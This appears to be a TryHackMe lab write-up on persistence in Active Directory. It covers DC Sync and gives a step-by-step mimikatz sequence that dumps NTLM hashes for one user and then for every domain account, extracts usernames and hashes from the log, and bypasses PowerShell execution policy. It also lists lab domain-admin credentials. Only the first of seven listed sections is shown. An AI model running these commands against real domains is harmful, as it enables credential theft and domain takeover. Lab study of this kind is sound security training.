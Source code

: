 # Persisting Active Directory - Medium

1. [Persistence through Credentials](#persistence-through-credentials)
2. [Persistence through Tickets](#persistence-through-tickets)
3. [Persistence through Certificates](#persistence-through-certificates)
4. [Persistence through SID History](#persistence-through-sid-history)
5. [Persistence through Group Membership](#persistence-through-group-membership)
6. [Persistence through ACLs](#persistence-through-acls)
7. [Persistence through GPOs](#persistence-through-gpos)

## Persistence through Credentials

* We are given low-privileged creds and DA (Domain Administrator) creds "Administrator:tryhackmewouldnotguess1@" for domain 'ZA'.

* In large organizations, there are multiple DCs (Domain Controllers) per domain; each DC runs a process called KCC (Knowledge Consistency Checker).

* KCC generates a replication topology for the AD forest and automatically connects to other DCs via RPC (Remote Procedure Calls) to sync info.

* This replication process is called DC synchronisation or DC Sync; this process can be initiated by DCs as well as accounts belonging to Domain Admins group.

* For a DC Sync attack, we can access an account that has domain replication permissions in order to harvest creds from a DC.

* We should attempt to persist through creds such as:

  * Creds that have local admin rights on several machines
  * Service accounts with delegation permissions
  * Accounts used for privileged AD services

* DCSync all:

```shell
#ssh into THMWRK1 using DA account
ssh za\\Administrator@thmwrk1.za.tryhackme.loc

C:\Tools\mimikatz_trunk\x64\mimikatz.exe
#load mimikatz

privilege::debug

#dcsync a single account, our low-priv user
lsadump::dcsync /domain:za.tryhackme.loc /user:grace.clarke
#dumps NTLM hash for our user, we can verify with password hash

log sv_dcdump.txt
#enable logging on mimikatz

lsadump::dcsync /domain:za.tryhackme.loc /all
#dumps hash for all users

exit

dir
#the log file has been saved

find /I "SAM Username" sv_dcdump.txt
#recover all usernames

find /I "Hash NTLM" sv_dcdump.txt
#recover all hashes

powershell -ep bypass
```